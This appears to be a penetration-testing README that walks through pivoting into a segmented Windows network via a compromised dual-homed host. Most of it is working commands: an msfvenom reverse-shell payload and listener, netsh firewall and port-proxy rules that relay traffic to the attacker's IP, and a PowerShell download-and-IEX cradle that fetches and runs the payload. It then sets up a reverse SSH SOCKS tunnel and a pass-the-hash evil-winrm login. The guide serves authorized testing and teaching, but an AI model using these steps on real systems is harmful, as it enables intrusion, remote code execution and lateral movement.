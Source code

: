 ## Reverse SSH Tunnel Method
As a penetration tester, you are expected to know how to pivot between hosts even when they reside on segmented networks. Segmented hosts are typically in-scope and often engagement target(s). The following example examines one method to accomplish segmented network pivoting via a dual-homed server compromised by the attacker without writing any third-party tools to disk.
***
### Simplified Segmented Network
![Segmented Network Example](segmented-network-live-off-the-land-example.png)

### Simplified Segmented Network Details
The following are the relevant example details:
```plaintext
Attacker IP:
	192.168.75.85

Dual-Homed Compromised Host (Windows x64) IPs:
	192.168.200.200
	10.10.1.200

Target Internal Client (Windows x64) IP:
	10.10.1.50

Intended Pivot:
	192.168.75.85 -> 192.168.200.200 -> 10.10.1.50

Additional Route Details:
	192.168.75.85 -> 10.10.1.50 = No Route To Host
	10.10.1.50 -> 192.168.75.85 = No Route To Host
```

### Assumptions
1. Dual-Homed Compromised Host is already compromised by the attacker
2. The attacker has escalated their privileges to Administrator, SYSTEM, or equivalent
3. Interaction via RDP, WinRM, webshell, xp_cmdshell, etc., with Target Internal Client is already direct possible via session (RDP or otherwise) on Dual-Homed Compromised Host.
4. The unaltered MSFVenom payload is sufficient to bypass defenses such as AMSI and Defender. During real engagements default payloads like this should not be used. For the purposes of simplifying this example, we assume the payload will execute properly.
---
### Step-By-Step Instructions For Pivot
1. (Kali) Make payload and place in apache default webroot
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8669 -f psh -o /var/www/html/win-x64-8669.txt;
```
2. (Kali) Start apache2 to host payload
```zsh
sudo service apache2 start;
```
3. (Kali) Start MSFConsole's multi/handler to receive callback shell
```zsh
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 8669; set ExitOnSession false; exploit -j";
```
4. (Compromised Host) Open up TCP port 4422. Used to reach the attacker on port 80 to download payload
```powershell
netsh advfirewall firewall add rule name="TCP Port 4422 Allow In" dir=in action=allow protocol=TCP localport=4422;
```
5. (Compromised Host) Redirect TCP traffic received on 4422 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 80
```powershell
netsh interface portproxy add v4tov4 listenport=4422 listenaddress=10.10.1.200 connectport=80 connectaddress=192.168.75.85;
```
6. (Compromised Host) Open up TCP port 8669. Used to reach the attacker on port 8669 for callback shell
```powershell
netsh advfirewall firewall add rule name="TCP Port 8669 Allow In" dir=in action=allow protocol=TCP localport=8669;
```
7. (Compromised Host) Redirect TCP traffic received on 8669 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 8669
```powershell
netsh interface portproxy add v4tov4 listenport=8669 listenaddress=10.10.1.200 connectport=8669 connectaddress=192.168.75.85;
```
8. Using exploit, RDP / WinRM / other connection from compromised host to target internal host, download "win-x64-8669.txt" from attacker. Note that the IP address used is the compromised host and the port (4422) is the one redirected to the attacker at 192.168.75.85 port 80
```powershell
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadString('http://10.10.1.200:4422/win-x64-8669.txt') | IEX"
```
9. Receive remote shell in MSFConsole
***
***
### Additional Pivoting Option via Reverse SSH Tunnel
In some cases, you will want to have a socket opened on the Compromised Dual-Homed Host for your tools, such as CrackMapExec, Evil-WinRM, SQLMap, etc., to tunnel through. Doing so allows your local tools to work with proxychains to reach and target otherwise unreachable hosts on segmented networks. To make this socket, we can use the SSH client on the compromised host SSH into our Kali machine and open a socket locally (on Kali) that we can pivot through.

Before continuing, first ensure you have proxychains4 setup:
```zsh
sudo apt update
sudo apt install proxychains4
```

#### Step-By-Step Instructions For SSH Reverse Tunnel
1. Create a new Kali user and ensure they are allowed to SSH into your instance. (Alternatively, use the provided script named `generate-ssh-user.sh` to create, and delete when finished with the `--clean` flag, temporary ssh users.)
2. Using PowerShell on the Compromised Dual-Homed Host, SSH into your Kali machine using the following command (only use the "-i" option if you are using an identity file for SSH authentication to your Kali machine and have placed this file on the Compromised Host):
```zsh
ssh -R 1080 <generated_user>@<kali_IP_address> -i <file_path_to_private_identity_file_if_using_one>
```
3. Ensure your `/etc/proxychains4.conf` has `socks5 127.0.0.1 1080` under `[ProxyList]`. An example of a working `proxychains4.conf` file, with all comments removed, is shown below:
```plaintext
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```
4. Using proxychains, you can now reach any host the Compromised Host can reach as long as the SSH session to your Kali machine remains intact. The following is an example command you could use to obtain a remote shell directly from Kali if WinRM is enabled on the Target Internal Client (10.10.1.50) and you have the local Administrator password hash, which is `ddce269a1e3d054cae349621c198dd52` in this example. (Note that the `-q` flag suppresses proxychains output but is not required)
```zsh
proxychains -q evil-winrm -i 10.10.1.50 -u Administrator -H ddce269a1e3d054cae349621c198dd52
```
